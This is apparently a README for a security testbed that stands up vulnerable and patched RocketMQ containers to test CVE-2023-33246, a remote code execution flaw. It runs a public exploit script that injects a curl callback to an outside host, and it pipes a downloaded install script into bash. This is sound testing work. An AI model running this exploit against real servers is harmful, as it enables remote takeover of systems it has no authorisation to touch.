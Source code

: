 # requirements setup
spin up an `Ubuntu 22.04` fresh instance and log in as root.
```bash
apt update
apt install dos2unix
wget -q -O - "https://get.docker.com/" | dos2unix | bash
# clone the repo
# cd security-testbeds/rocketmq/CVE-2023-33246
```
# setup Vulnerable instance
## Start service
```bash
docker compose -f docker-compose-vulnerable.yml up 
```
## test the exploit
### simple test
```bash
git clone https://github.com/Malayke/CVE-2023-33246_RocketMQ_RCE_EXPLOIT/tree/main
cd CVE-2023-33246_RocketMQ_RCE_EXPLOIT
python3 check.py --ip <IP>
```
The python script will output a message with the version and the exploitability
### test with OOB
```bash
 python3 CVE-2023-33246_RocketMQ_RCE_EXPLOIT.py <IP> <PORT> 'curl http://<HOSTNAME>:<PORT>/test'
```
# setup secure instanced
## Start service
```bash
docker compose -f docker-compose-secure.yml up
```

Ref:
https://vulncheck.com/blog/rocketmq-exploit-payloads